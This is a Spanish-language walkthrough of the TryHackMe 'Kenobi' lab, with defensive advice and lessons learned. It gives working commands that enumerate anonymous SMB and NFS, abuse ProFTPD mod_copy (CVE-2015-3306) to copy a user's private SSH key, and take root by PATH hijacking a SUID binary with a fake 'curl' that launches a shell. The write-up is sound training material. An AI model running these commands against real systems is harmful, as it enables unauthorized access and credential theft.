







# Kenobi — TryHackMe (Fácil)

**Plataforma:** TryHackMe · **Categoría:** Enumeración SMB/NFS / Explotación ProFTPD (CVE-2015-3306) / PrivEsc PATH Hijacking · **Herramientas:** Nmap, smbclient, netcat, searchsploit, mount, ssh

---

## Resumen

Máquina Linux con múltiples servicios de red: SSH, HTTP, Samba (SMB), NFS y ProFTPD. La enumeración del share SMB anónimo revela la ubicación de la clave SSH privada del usuario `kenobi`. ProFTPD 1.3.5 tiene una vulnerabilidad en el módulo `mod_copy` (CVE-2015-3306) que permite copiar archivos arbitrarios del sistema sin autenticación usando los comandos `SITE CPFR` y `SITE CPTO`. Se copia la clave privada a `/var/tmp/`, carpeta exportada por NFS, se monta localmente y se accede por SSH. La escalada de privilegios se logra mediante PATH hijacking sobre un binario SUID personalizado (`/usr/bin/menu`) que llama a `curl` sin ruta absoluta.

---

## Habilidades demostradas

- Escaneo de puertos y servicios con Nmap, incluyendo scripts NSE para SMB y NFS
- Enumeración de shares SMB y acceso anónimo con smbclient
- Enumeración de exports NFS con scripts Nmap (`nfs-showmount`)
- Identificación de versión de servicio mediante banner grabbing con netcat
- Búsqueda de exploits conocidos con searchsploit (ExploitDB offline)
- Explotación de CVE-2015-3306 (ProFTPD mod_copy) sin autenticación
- Montaje de exports NFS para exfiltrar archivos del servidor
- Escalada de privilegios mediante PATH hijacking en binario SUID personalizado
- Encadenamiento de vulnerabilidades: reconocimiento → información sensible → explotación → acceso SSH → root

---

## 1. Reconocimiento

```bash
nmap -sC -sV <IP>
```

| Puerto | Servicio   | Versión                      |
|--------|------------|------------------------------|
| 21     | FTP        | ProFTPD 1.3.5                |
| 22     | SSH        | OpenSSH 8.2p1 Ubuntu         |
| 80     | HTTP       | Apache 2.4.41 (Ubuntu)       |
| 111    | rpcbind    | 2-4 (RPC #100000)            |
| 139    | netbios-ssn| Samba 4.6.2                  |
| 445    | netbios-ssn| Samba 4.6.2                  |
| 2049   | nfs        | 3-4 (RPC #100003)            |

7 puertos abiertos. La presencia de rpcbind (111) y NFS (2049) indica que el servidor exporta carpetas de red — vector que vale la pena explorar en paralelo al SMB.

---

## 2. Enumeración SMB

SMB (Server Message Block) es el protocolo estándar para compartir archivos en redes Windows/Linux mixtas. Samba es la implementación para Linux. Los "shares" son carpetas compartidas accesibles por red.

Listado de shares disponibles:

```bash
smbclient -L //<IP>
# Presionar Enter cuando pida contraseña (acceso anónimo)
```



Se encontraron 3 shares: `print$`, `anonymous` e `IPC$`. El share `anonymous` era accesible sin credenciales — cualquier usuario de red puede conectarse.

Conexión al share anónimo:

```bash
smbclient //<IP>/anonymous -N
```



El share contiene `log.txt`. Los comandos `cat`, `tac` y `less` no existen dentro del cliente SMB — son comandos de shell local, no comandos del protocolo. La forma correcta de leer el archivo es descargarlo primero:

```bash
get log.txt
exit
```

El archivo `log.txt` contenía información crítica para el siguiente paso:
- Confirmación de que se generó una clave SSH para el usuario `kenobi`: `/home/kenobi/.ssh/id_rsa`
- Detalles del servidor ProFTPD corriendo en el puerto 21

También se enumeraron los shares con scripts NSE de Nmap:

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <IP>
```

---

## 3. Enumeración NFS

NFS (Network File System) es el protocolo nativo de Linux para compartir carpetas en red. El puerto 111 (rpcbind) gestiona el registro de servicios RPC, incluyendo NFS.

```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount <IP>
```



El servidor exporta `/var` vía NFS, accesible desde cualquier IP (`*`). Esto significa que cualquier máquina en la red puede montar esa carpeta y leer su contenido — incluyendo cualquier archivo que alguien escriba en `/var/tmp/`.

---

## 4. Explotación de ProFTPD

### Banner grabbing: versión del servicio

```bash
nc <IP> 21
```



El banner reveló la versión exacta: **ProFTPD 1.3.5**. Con el nombre y versión del software es posible buscar vulnerabilidades conocidas.

### Búsqueda de exploits

```bash
searchsploit proftpd 1.3.5
```



searchsploit (ExploitDB offline) devolvió 4 resultados, todos relacionados con el módulo **mod_copy**. Este módulo implementa los comandos `SITE CPFR` (Copy From) y `SITE CPTO` (Copy To), que permiten copiar archivos de cualquier parte del sistema de archivos **sin autenticación**. Es CVE-2015-3306.

### Explotación

El archivo `log.txt` del share SMB confirmaba que el usuario `kenobi` tenía su clave SSH en `/home/kenobi/.ssh/id_rsa`. Usando `mod_copy`, se copió esa clave a `/var/tmp/`, que pertenece a la carpeta `/var` exportada por NFS:

```bash
nc <IP> 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```



- `350 File or directory exists, ready for destination name` — el servidor confirmó que la clave existe
- `250 Copy successful` — la clave fue copiada a `/var/tmp/`

El encadenamiento es: SMB anónimo revela la ruta de la clave → mod_copy permite copiarla sin autenticación → NFS permite recuperarla sin credenciales.

---

## 5. Acceso inicial por SSH

Con la clave copiada a `/var/tmp/`, se montó el export NFS para recuperarla:

```bash
mkdir /mnt/kenobiNFS
mount <IP>:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS/tmp/
```

El archivo `id_rsa` era visible junto a otros directorios del sistema. Se copió localmente y se ajustaron los permisos — SSH rechaza claves con permisos más abiertos que 600 por seguridad:

```bash
cp /mnt/kenobiNFS/tmp/id_rsa .
chmod 600 id_rsa
ssh -i id_rsa kenobi@<IP>
```

Acceso SSH exitoso como `kenobi`. Flag de usuario en `/home/kenobi/user.txt`.

---

## 6. Escalada de privilegios

### Identificación del binario SUID inusual

```bash
find / -perm -u=s -type f 2>/dev/null
```

Entre los binarios estándar del sistema, `/usr/bin/menu` era el único inusual — ninguna instalación estándar de Ubuntu incluye un binario con ese nombre con el bit SUID activado. Al ejecutarlo, mostró 3 opciones: status check, kernel version e ifconfig.

### PATH Hijacking

El binario ejecutaba los comandos `curl`, `uname` e `ifconfig` **sin ruta absoluta** (solo el nombre del comando, sin `/usr/bin/curl`). Esto lo hace vulnerable a PATH hijacking.

Cuando Linux busca un comando sin ruta completa, recorre las carpetas del `$PATH` en orden. Si se agrega una carpeta propia **al inicio** del PATH y se crea un archivo con el mismo nombre del comando buscado, Linux lo encuentra primero y lo ejecuta — heredando los privilegios del binario SUID (root en este caso).

```bash
cd /tmp
echo /bin/sh > curl       # "curl" falso que lanza una shell
chmod 777 curl             # permisos de ejecución
export PATH=/tmp:$PATH    # /tmp al inicio del PATH
/usr/bin/menu              # ejecutar el binario SUID
# → elegir opción 1 (status check, que llama a curl)
```



Al elegir la opción 1, el binario encontró primero `/tmp/curl` en el PATH, ejecutó `/bin/sh` con privilegios de root y se obtuvo shell de root. Desde ahí, acceso completo al sistema.

---

## Lo que probé y no funcionó

- **`cat`, `tac`, `less` dentro de smbclient**: el cliente SMB no es una shell — esos comandos no existen en el contexto del protocolo. La forma correcta de leer archivos del share es `get <archivo>` para descargarlo y luego leerlo localmente.
- **nmap SMB con smb-enum-shares.nse en primera pasada**: el script NSE no devolvió los shares — solo confirmó que el puerto 445 estaba abierto como `microsoft-ds`. El listado de shares lo dio `smbclient -L` directamente. Los scripts NSE de SMB a veces requieren credenciales o no funcionan con todas las versiones de Samba.

---

## Impacto

Un atacante externo sin credenciales puede obtener shell de root encadenando cuatro vulnerabilidades: acceso anónimo SMB que expone información sensible sobre la infraestructura, ProFTPD con mod_copy habilitado que permite copiar archivos arbitrarios del sistema sin autenticación, NFS exportando `/var` sin restricción de IP que permite recuperar cualquier archivo copiado allí, y un binario SUID personalizado que ejecuta comandos sin rutas absolutas. Ningún paso requiere credenciales ni CVEs adicionales — solo conocer la versión del software y encadenar las vulnerabilidades disponibles.

---

## Perspectiva defensiva

- **Deshabilitar el módulo mod_copy de ProFTPD** si no es necesario, o actualizar a una versión posterior a 1.3.5 donde está parcheado. Los módulos de FTP que no se usan deben desactivarse explícitamente.
- **Restringir el acceso NFS por IP** en lugar de usar `*`: solo las IPs que necesitan el montaje deben poder acceder.
- **No incluir shares SMB anónimos con información sensible**: el acceso anónimo SMB debería limitarse a lo estrictamente necesario, y nunca exponer rutas de claves SSH o configuraciones de servicios.
- **Los binarios SUID siempre deben usar rutas absolutas** para llamar a otros programas. Un binario SUID que llama a `curl` en vez de `/usr/bin/curl` es PATH hijacking esperando ocurrir.
- **Auditar regularmente los binarios con SUID**: `find / -perm -4000 -type f 2>/dev/null`. Cualquier binario personalizado con SUID es una señal de alerta inmediata.

---

## Lecciones aprendidas

- `smbclient` no es una shell: los comandos de lectura de archivos (`cat`, `less`, `tac`) no existen en el contexto del protocolo SMB. Para leer un archivo del share hay que descargarlo con `get` y abrirlo localmente.
- El banner grabbing con `nc` es suficiente para identificar la versión exacta de un servicio FTP. Con nombre + versión exacta, searchsploit devuelve exploits aplicables en segundos.
- SMB anónimo + NFS sin restricción de IP + CVE en FTP es un encadenamiento clásico: cada vulnerabilidad por separado puede parecer de bajo impacto, pero combinadas dan acceso root completo.
- PATH hijacking requiere dos condiciones: un binario SUID que llame a comandos sin ruta absoluta, y capacidad de escribir en alguna carpeta que se pueda agregar al PATH antes que `/usr/bin`. `/tmp` siempre es escribible en Linux.
- searchsploit funciona offline — no requiere conexión a internet. En un entorno de CTF o pentest sin acceso web, es la primera herramienta para buscar exploits conocidos por nombre y versión.

---

## Referencias

- [TryHackMe — Kenobi](https://tryhackme.com/room/kenobi)
- [CVE-2015-3306 — ProFTPD mod_copy](https://nvd.nist.gov/vuln/detail/CVE-2015-3306)
- [ExploitDB — ProFTPD 1.3.5 mod_copy](https://www.exploit-db.com/exploits/36742)
- [GTFOBins — PATH hijacking](https://gtfobins.github.io/)